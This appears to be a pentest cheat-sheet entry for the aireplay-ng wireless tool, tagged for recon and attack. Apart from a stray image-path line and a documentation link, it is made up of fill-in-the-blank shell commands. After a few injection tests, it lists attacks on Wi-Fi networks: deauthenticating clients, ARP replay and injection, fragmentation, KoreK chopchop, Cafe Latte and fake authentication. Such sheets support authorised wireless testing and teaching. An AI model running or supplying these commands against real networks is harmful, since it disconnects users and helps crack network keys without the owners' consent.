 # aireplay-ng
% wifi, aireplay-ng
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
generate wifi traffic. The device must be set to monitor mode and channel must be set.
```

## _repo
```
```

## _doc
```
https://www.aircrack-ng.org/doku.php?id=aireplay-ng
```

## _install
```
```

## Injection test
```bash
sudo aireplay-ng --test <wlan_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> <wlan_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> -a <bssid> <wlan_interface|wmon> 
```


## Deauthentication
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --deauth <count|5> -a <bssid> -c <wlan_station_mac> <wlan_interface|wmon>
```

## ARP capture / replay attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --arpreplay -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## fragment attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --fragment -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## KoreK chopchop attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --chopchop -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## ARP injection
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --interactive -r <forged_arp_fle>.cap -h <bssid> <wlan_interface|wmon>
```

## Cafe latte attack
```bash
sudo iw dev <wlan_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng -6 -D -b <bssid> -h <wlan_station_mac> <wlan_interface|wmon>
```

## fake auth
```bash
sudo aireplay-ng --fakeauth 1000 -o 1 -q 5 -e <ssid> -a <bssid> -h <current_mac> <wlan_interface|wmon>
```
